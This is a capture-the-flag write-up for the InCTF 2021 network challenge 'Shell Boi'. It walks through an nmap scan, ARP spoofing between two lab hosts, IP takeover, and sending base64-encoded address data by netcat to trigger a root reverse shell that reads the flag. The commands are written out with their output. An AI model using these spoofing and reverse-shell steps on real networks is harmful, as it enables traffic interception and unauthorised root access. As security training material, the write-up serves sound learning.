

# Shell Boi - InCTF 2021 [11 solves] [956 points] [First Blood 🩸]
## Description
```
He sells linux shells on the shell store.

Author: f4lcon
```
[OpenVPN Config](https://ctf.bi0s.in/pentest/config/55)

---

## Solution
An openvpn file is provided to connect to the network
```
tap0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.30.0.14  netmask 255.255.255.240  broadcast 0.0.0.0
        inet6 fe80::24d0:c6ff:fe0b:74d2  prefixlen 64  scopeid 0x20<link>
        ether 26:d0:c6:0b:74:d2  txqueuelen 1000  (Ethernet)
        RX packets 9  bytes 702 (702.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 6  bytes 516 (516.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
The network is having a 255.255.255.240 netmask, so I scan the entire network with nmap using -sP/-sn with the CIDR notation of /28
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 08:02 HKT
Nmap scan report for 172.30.0.5
Host is up (0.16s latency).
MAC Address: 02:42:0C:94:44:7F (Unknown)
Nmap scan report for 172.30.0.8
Host is up (0.17s latency).
MAC Address: 02:42:55:F9:1F:2B (Unknown)
Nmap scan report for 172.30.0.14
Host is up.
Nmap done: 16 IP addresses (3 hosts up) scanned in 16.15 seconds
```
Except my vm, there are 2 hosts found on the network : 172.30.0.5, 172.30.0.8

Then I scan ports of both hosts, 172.30.0.8 has no port opened, and 172.30.0.5 has port 1337 opened

However nmap could not recognise what service is running on port 1337
```
1337/tcp open  tcpwrapped syn-ack ttl 64
```

I tried to connect to that port using netcat, but has no idea how that service is used.

So I was thinking why 172.30.0.8 is in the network, as it has no open port

Inspired by the previous network pentest challenge 'listen', I tried to use wireshark to see if any host is attemping to connect to us, but there isn't any.

Then I asked the organizer if arp spoofing is allowed on the network, which they replied that it is allowed 

Then I try to use do arp spoofing in order to be able to capture traffic between that 2 hosts :

```
arpspoof -i tap0 -t 172.30.0.8 -r 172.30.0.5
```
Also, I forward the traffic to the correct host after capturing, in order to avoid causing a DoS to the network :
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
Then I capture traffic using wireshark :



This look like a reverse shell, sending from 172.30.0.5 to 172.30.0.8

What is happening before the reverse shell is sent, is that 172.30.0.8 sending some base64 data to port 1337 of 172.30.0.5 :
```
MTcyLjMwLjAuOA==
MzYxMTk=
```
Which after decoded is the ip address and a port that the reverse shell will connect to :
```
172.30.0.8
36119
```
After the base64 data is send to port 1337 of 172.30.0.5, 172.30.0.5 will send back a reverse shell to the ip address and port in the base64 data

So I changed the base64 data to my ip address and I listen to that port 36119 :
```
nc -nlvp 36119
```
Then I save the base64 data needed to be sent in a file called input, and send the data to port 1337 of 172.30.0.5 using netcat
```
nc -nv 172.30.0.5 1337 < input
```
However I'm not receiving a reverse shell as expected

So I use wireshark to capture the traffic and see what is happening, after the connection is established and the data is sent, 172.30.0.5 is sending back packet with RST,ACK flags set which close the TCP connection

I see that 172.30.0.8 is successfully getting a reverse shell, so I try to do arp spoof against 172.30.0.5 and spoof the ip address of 172.30.0.8 :

```
arpspoof -i tap0 -t 172.30.0.5 172.30.0.8
```
```
ifconfig tap0 172.30.0.8 netmask 255.255.255.240
```
Then change the content of the input file to 172.30.0.8 and the port 36119 in base64 format :
```
MTcyLjMwLjAuOA==
MzYxMTk=
```
Listen on port 36119 :
```
nc -nlvp 36119
```
Then send the base64 data to port 1337 :
```
nc -nv 172.30.0.5 1337 < input
```
Finally, I received the reverse shell :
```
# nc -nlvp 36119
listening on [any] 36119 ...
connect to [172.30.0.8] from (UNKNOWN) [172.30.0.5] 47864
bash: cannot set terminal process group (1587): Inappropriate ioctl for device
bash: no job control in this shell
root@2469a4703515:/# 
```
The flag is just in /root/flag.txt :
```
root@2469a4703515:/# cd /root
cd /root
root@2469a4703515:~# ls -la
ls -la
total 20
drwx------ 1 root root 4096 Aug 13 19:48 .
drwxr-xr-x 1 root root 4096 Aug 14 04:03 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   31 Aug 13 15:40 flag.txt
root@2469a4703515:~# cat flag.txt
cat flag.txt
inctf{Ha!Security_1s_4_my7h!!!}
```

---

## Flag
```
inctf{Ha!Security_1s_4_my7h!!!}
```